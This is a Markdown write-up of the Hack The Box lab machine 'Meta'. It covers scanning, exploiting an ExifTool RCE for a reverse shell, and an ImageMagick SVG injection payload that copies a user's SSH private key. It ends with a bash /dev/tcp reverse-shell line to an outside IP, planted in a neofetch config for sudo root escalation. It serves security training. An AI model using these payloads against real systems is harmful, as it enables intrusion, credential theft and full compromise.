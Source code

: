 ```yaml
---
title: Meta
date: 2021-03-14
tags:
  - Writeup
---
```


![Meta](./meta.png)

## Introduction

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap Service Scanning

```
➜  HTB git:(master) ✗ nmap -Pn -sV -sC 10.10.11.140

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-15 12:33 IST
Nmap scan report for 10.10.11.140
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (EdDSA)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

We can see a Http server running on Port 80 and ssh service running on port22.

### Checking on port 80:

We got the site url : ```artcorp.htb```

Open ```/etc/hosts``` file and add ```10.10.11.140    artcorp.htb```
```
sudo nano /etc/hosts
```

Nothing seems interesting on the website.Lets do a subdomain fuzz using ```ffuf```.I used the following [wordlist.](https://github.com/danielmiessler/SecLists)

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://artcorp.htb/ -H "Host:http://FUZZ.artcorp.htb" -mc all -fc 404,400

```

Yep, found a subdomain ```dev01```.

Open ```/etc/hosts``` file and add ```10.10.11.140    dev01.artcorp.htb```
```
sudo nano /etc/hosts
```

We got a web interface of ```MetaView.``` Uploading a random file gave
![metaview](./metaview.png)
Uploading a jpg/png file gave:

![jpg](./content.png)

Hmmm...this output looks familiar.```Exiftool``` is used for reading, writing and editing meta information in a wide variety of files.
Lets check the output of Exiftool on our local machine.

```
➜  Meta git:(master) ✗ exiftool image.jpg   
ExifTool Version Number         : 10.80
File Name                       : image.jpg
Directory                       : .
File Size                       : 46 kB
File Modification Date/Time     : 2022:03:16 12:22:06+05:30
File Access Date/Time           : 2022:03:16 12:22:51+05:30
File Inode Change Date/Time     : 2022:03:16 12:22:06+05:30
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Image Width                     : 750
Image Height                    : 467
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x467
Megapixels                      : 0.350

```

Yep we are on the right track. The web interface is using Exiftool to give info of jpg/png files.

## Exiftool | Reverse Shell
Lets search for any vulnerabilities of Exiftool.Found some info here. [Vulnerability](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).
This enabled a malicious actor to perform a Remote code Execution attack.Let's exploit it.

Found the exploit [here](https://github.com/convisolabs/CVE-2021-22204-exiftool). Download the exploit.py,configfile and image.jpg.

* Change the port and ip in exploit.py
* Run command ```python3 exploit.py```
* Open up a listener on the above port ```nv -nvlp <port-no>```

This will generate a malicious image file. Upload it in the metaview web-interface.Yeah,we got the Reverse Shell.

```
$ whoami
www-data

$ pwd
/var/www/dev01.artcorp.htb/metaview


$ cd /home
$ ls
thomas

```

We have one user thomas.

## User Privilege

Running [LinPeAs](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to get system information.

Found this interesting info:

```
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/local/bin/convert_images.sh
/usr/bin/gettext.sh
```

Migrating and seeing the content of the files:

convert_images.sh
```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

It uses mogrify. Lets do some research and find its vulnerabilities(if any). It is similar to ImageMagick tool and used for
the same purpose.Found one interesting thing [here](https://www.exploit-db.com/exploits/39767). It has CVE-2016-3714 - Insufficient shell characters
 filtering leads to (potentially remote) code execution.

Lets exploit it.

If we look properly ```convert_images.sh``` file migrates to /var/www/dev01.artcorp.htb/convert_images/ and execute mogrify 
on all the files present in the directory. So lets create a .svg file as described [here](https://www.exploit-db.com/exploits/39767).

We also see that there is .ssh folder in /home/thomas which we can't access.Lets try to access that folder using our .svg file.

1. Save this file in /var/www/dev01.artcorp.htb/convert_images/ with .svg extension.

```
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

2. Migrate to /usr/local/bin and execute convert_images.sh

3. Go to /dev/shm and you will find ```id_rsa``` file with user as thomas.

```
$ ls -al
total 4
drwxrwxrwt  2 root   root     60 Mar 24 04:14 .
drwxr-xr-x 16 root   root   3080 Mar 24 02:02 ..
-rw-r--r--  1 thomas thomas 2590 Mar 24 04:14 id_rsa
```

Store the content of id_rsa in local file and used it to ssh as thomas and read the flag.

## System Own

Let's check if we have any commands to run as sudo user.

```
sudo -l 
```

```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

This shows that user thomas can run ```neofetch command``` as sudo without any password.

Searched if neofetch can be used to get reverse shell and found some relevant info [here](https://gtfobins.github.io/gtfobins/neofetch/#sudo)

There was a .config folder in thomas home directory. Found neofetch config file there. 
Now I added a reverse shell command at the starting of the file.

```
/bin/bash -c "bash &>/dev/tcp/10.10.16.11/4444 <&1"
```

I want that if I run neofetch that it uses this config file I have changed. So for that I changed the base path
to load config file by the following command.

```
export XDG_CONFIG_HOME=/home/thomas/.config
```
#
```
which neofetch 
/usr/bin/neofetch
```

So I opened a listener at my local system and ran the following command from meta.

```
sudo -u root /usr/bin/neofetch
```

and Yipee got the root shell.